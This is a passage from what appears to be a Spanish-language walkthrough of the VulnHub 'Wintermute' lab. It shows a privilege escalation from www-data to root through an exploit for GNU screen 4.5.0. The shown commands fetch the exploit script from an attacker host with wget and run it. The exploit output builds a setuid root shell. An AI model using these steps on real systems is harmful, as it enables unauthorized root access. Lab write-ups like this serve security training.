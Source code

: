 ```bash
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

www-data@straylight:/var/www/html/turing-bolo$ which screen
which screen
/bin/screen

www-data@straylight:/var/www/html/turing-bolo$ ls -l /bin/screen
ls -l /bin/screen
lrwxrwxrwx 1 root root 12 May 12  2018 /bin/screen -> screen-4.5.0
```

Buscamos en searchsploit y encontramos elevación de privilegios sobre este binario.

![screen](/assets/img/commons/vulnhub/Wintermute/screen.png){: .center-image }

Compartimos el script con la máquina víctima y lo ejecutamos, somos root, listamos la flag.

```bash
www-data@straylight:/var/www/html/turing-bolo$ cd /tmp
cd /tmp

www-data@straylight:/tmp$ wget 10.11.12.10/41154.sh
wget 10.11.12.10/41154.sh
--2025-02-20 02:24:47--  http://10.11.12.10/41154.sh
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1149 (1.1K) [text/x-sh]
Saving to: '41154.sh'

41154.sh            100%[===================>]   1.12K  --.-KB/s    in 0s

2025-02-20 02:24:47 (373 MB/s) - '41154.sh' saved [1149/1149]

www-data@straylight:/tmp$ chmod +x 41154.sh
chmod +x 41154.sh

www-data@straylight:/tmp$ ./41154.sh
./41154.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod' [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid' [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid' [-Wimplicit-function-declaration]
```